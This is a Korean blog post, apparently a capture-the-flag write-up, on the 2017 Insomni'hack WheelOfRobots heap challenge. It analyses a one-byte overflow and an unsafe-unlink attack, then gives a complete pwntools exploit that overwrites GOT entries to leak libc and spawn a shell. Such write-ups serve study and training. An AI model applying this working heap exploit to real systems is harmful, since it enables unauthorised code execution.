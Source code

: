 ```yaml
---
layout: post
title: "[2017 Insomni'hack] WheelOfRobots 풀이"
date: 2018-09-26 04:44
categories: "[Pwn]CTF"
tags: rotles98
---
```


>[WheelOfRobots](https://github.com/pwnwiz/CTF/raw/master/WheelOfRobots/WheelOfRobots) 

으어

- - -
# 0x00. 분석

{: refdef: style="text-align: center;"}
![checksec](/img/2017_Insomni'hack/WheelOfRobots/01.png)
{: refdef}

`func_add`

1. 로봇 선택 (이때 `1byte overflow` 발생)

2. `2`, `3`, `6` 일 경우 로봇의 특성 값 같은걸 입력

3. 로봇의 이름만큼 할당받고 그 안에 이름이 들어감

4. `robot_count` 증가<br /><br />

`func_delete`

1. 로봇 선택

2. `flag` 값이 존재하면 `free(robot_name)`, `robot_count` 감소<br /><br />

`func_change`

1. 로봇 선택

2. `flag` 값이 존재하면 해당 로봇의 이름만큼 `read`<br /><br />

`func_start`

1. `robot_count`가 2 초과인지 확인 아닐시 `return`

2. `sub_4015BD(6)`의 결괏값과 `robot_flag` 값을 가지고 특정 함수 실행 (별로 안 중요)

3. `exit(1)`<br /><br />

`robot_list`

{: refdef: style="text-align: center;"}
![robot_list](/img/2017_Insomni'hack/WheelOfRobots/02.png)
{: refdef}

이 문제는 `robot_name`, `robot_flag`, `robot_len`까지 다 `bss`에 저장돼 있어요.

- - -
# 0x01. 공격 방법

`func_add`의 **1**을 보면 `1byte overflow`가 발생하는데 해당 버퍼를 보면 `robot_2_flag`의 값을 바꿀 수 있어요.

그래서 `robot_2`를 가지고 `unsafe_unlink`를 사용할 거에요.

`robot_2`는 `fastbin`이라서 `fastbin_dup_consolidate`을 사용할 수 있어요.

1. `func_add(2)` input = `2`

2. `func_add(4)`

3. `func_delete(2)`

4. `func_add(5)` -> `fastbin_dup_consolidate`, `1byte overflow` -> `robot_2_flag = 1`

5. `func_change(2)`를 사용해 `fake_chunk`를 만듦

6. `func_delete(4)` -> `robot_2`의 `fake_chunk`에서 `unlink` 실행

7. `robot_2_name`의 주소가 `robot_2_name - 0x18`로 바뀜

8. `func_change(2)`로 `robot_2_name - 0x18`부터 `0x28`만큼 데이터를 바뀌서 `system(/bin/sh)` 실행

- - -
# 0x02. 익스플로잇

```python
from pwn import *
#context.log_level = "debug"

HOST = "192.168.0.19"
#HOST = ""
PORT = 4444
#PORT =

s = remote(HOST, PORT)
pause()

elf = ELF("./WheelOfRobots")
libc = ELF("./libc.so.6")

puts_plt = elf.plt["puts"]
puts_got = elf.got["puts"]
free_got = elf.got["free"]

puts_off = libc.symbols["puts"]
system_off = libc.symbols["system"]

robot_4_name = 0x6030E0
robot_2_name = 0x6030F0
robot_2_flag = 0x603114

def func_add(index):
    s.recvuntil("Your choice : ")
    s.sendline("1")

    s.recvuntil("Your choice :")
    s.sendline(index)

def func_delete(index):
    s.recvuntil("Your choice : ")
    s.sendline("2")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

def func_change(index, content):
    s.recvuntil("Your choice : ")
    s.sendline("3")

    s.recvuntil("Your choice :")
    s.sendline(str(index))

    s.recvuntil("Robot's name: ")
    s.send(content)

func_add(str(2))
s.sendline("2")
func_add(str(4))

func_delete(2)
func_add("5" + "\x00\x00\x00" + "\x01")

payload = p64(0x0)
payload += p64(0x20)
payload += p64(robot_2_name - 0x18)
payload += p64(robot_2_name - 0x10)
payload += p64(0x20)
func_change(2, payload)

func_delete(4)

payload = p64(0x0)*3
payload += p64(robot_4_name) # robot_2_name
func_change(2, payload)

payload = p64(free_got) # robot_4_name
payload += p64(puts_got) # robot_6_name
payload += p64(robot_2_flag) # robot_2_name
func_change(2, payload)

payload = p32(0x1)*3 # robot_2, 4, 6 flag
func_change(2, payload)

func_change(4, p64(puts_plt))
func_delete(6) # libc_leak
libc_puts = u64(s.recvuntil("\x7f").ljust(8, "\x00"))

libc_base = libc_puts - puts_off
libc_system = libc_base + system_off

print
log.info("libc_base : " + hex(libc_base))
log.info("libc_puts : " + hex(libc_puts))
log.info("libc_system : " + hex(libc_system))
print

func_change(4, p64(libc_system))
func_change(2, "/bin/sh\0")
func_delete(2)

s.interactive()
```

